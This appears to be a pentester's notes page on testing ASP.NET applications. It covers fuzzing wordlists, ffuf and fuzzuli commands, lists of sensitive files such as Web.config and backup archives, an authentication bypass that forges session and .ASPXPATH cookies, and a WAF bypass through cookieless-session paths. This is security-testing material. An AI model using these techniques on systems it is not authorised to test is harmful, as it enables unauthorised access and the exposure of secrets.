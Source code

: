 # ASP.NET Security Testing

### Reference

{% embed url="https://docs.google.com/presentation/d/1q6gKVufrzPAJ7aZ5iOogCMVe6bOreC4v/edit?slide=id.p59#slide=id.p59" %}

### ASP Fuzzing

* Extensions.

```textile
Xml
Txt
Zip
7z 
Dll
Ashx
Asmx
Svc
HTML
HTM
JS
JSON
```

* Headers.

```http
Cookie: 
User-Agent: 
Accept: */*
```

* Example Findings

```
Api.zip
Wwwroot.zip
Bin.7z
Web.dll
Login.htm
Accesses.txt
appsettings.json
UploadHandler.ashx
File_Manager.asmx
Service1.svc
```

* Tools&#x20;
* FFUF

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://target.example/FUZZ -D -e .php,.html,.bak -t 40
```



* [**fuzzuli**](https://github.com/musana/fuzzuli)

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
go install -v github.com/musana/fuzzuli@latest

echo https://fuzzuli.musana.net fuzzuli -p
echo https://fuzzuli.musana.net|fuzzuli -mt shuffle
echo https://fuzzuli.musana.net|fuzzuli -mt regular
echo https://fuzzuli.musana.net|fuzzuli -mt withoutdots
echo https://fuzzuli.musana.net|fuzzuli -mt withoutvowels
echo https://fuzzuli.musana.net|fuzzuli -mt withoutdv
echo https://fuzzuli.musana.net|fuzzuli -mt reverse
echo https://fuzzuli.musana.net|fuzzuli -mt all
```

### Critical ASP Paths Often Overlooked by Pentesters.

```
/OBJ/Debug
intitle:"index of /obj“
APPname.dll, APPNAME.FUZZ.dll
Web.dll, WebConfig.txt, Web.xml
*.DLL
*.TXT
*.XML

/XML/
FUZZService.EXT|AppNameService.EXT|AppName.EXT
Login.asmx, admin.asmx, FileTransferService.svc
FUZZ /XML/ with XSL EXT
/xml/SupportAuth.xsl
*.XML
*.XSL
*.ZIP

/WebServices/
Config.xml, Export.zip, Login.XSL
SUPPORTTOKENINTERNAL on SupportAuth.aspx
*.ASMX
*.SVC
```

### Abusing ASP.NET\_SessionId for Unauthorized Access.

```bash
/Backup/ 403
Web.config
 <deny users="?" /> =anonymous  
UnAuth ASP.NET_SessionId=X
 <deny users="?" /> ≠ anonymous
 /backup/ 200
--------------------
/UsersInfo.ashx 302
if (Request.Cookies[".ASPXAUTH"] = null
UnAuth
.ASPXPath=X
if (Request.Cookies[".ASPXAUTH"] != null
/UsersInfo.ashx 200
---------------------
# Scenario
1. /Hdownload.ashx -> 302
2. /Login.aspx -> .ASPXPATH= (cookie parameter) 
3. /Hdownload.ashx  + .ASPXPATH= (cookie parameter) -> Bypassed
```

### Bypassing WAFs with ASP.NET Cookieless Sessions.

* Bypass WAF-Blocked Endpoints Using (S(x))

```bash
1. GET /admin/login.ASPX
2. The WAF only allows internal IPs to access the endpoint.
3. GET /admin/S(X))/login.ASPX --> 200 OK
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Uncovering Secrets in ASP.NET JS Files.

* Fuzzing For JS On ASP.NET

```
/
/js
/Javascript
/include
```

* Critical JavaScript Filenames On ASP.NET

```
appsettings.js
Config.js
debug.js
service-worker-assets.js
```

### Breaking Auth with Unique Path Manipulation.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
